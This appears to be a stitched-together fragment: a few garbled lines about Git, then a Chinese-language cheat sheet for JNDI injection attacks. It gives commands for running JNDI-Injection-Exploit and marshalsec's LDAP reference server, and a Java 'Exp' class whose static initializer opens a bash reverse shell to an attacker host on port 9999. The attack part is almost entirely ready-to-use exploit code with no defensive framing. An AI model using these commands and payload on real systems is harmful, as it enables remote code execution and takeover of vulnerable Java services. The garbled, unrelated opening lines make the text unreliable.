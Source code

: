 Git is a version control sysrem.
Git is free software.
wher true
will be not
branch modify





JNDI注入工具：

JNDI-Injection-Exploit

```
java -jar JNDI-Injection-Exploit -C "command" -A 127.0.0.1
```



marshalsec-jar

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefserver "http://ip/#EXp" 1389
```

需要准备包含恶意代码的exp

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exp {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/ip/9999 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            //do nothing
        }
    }
}
```


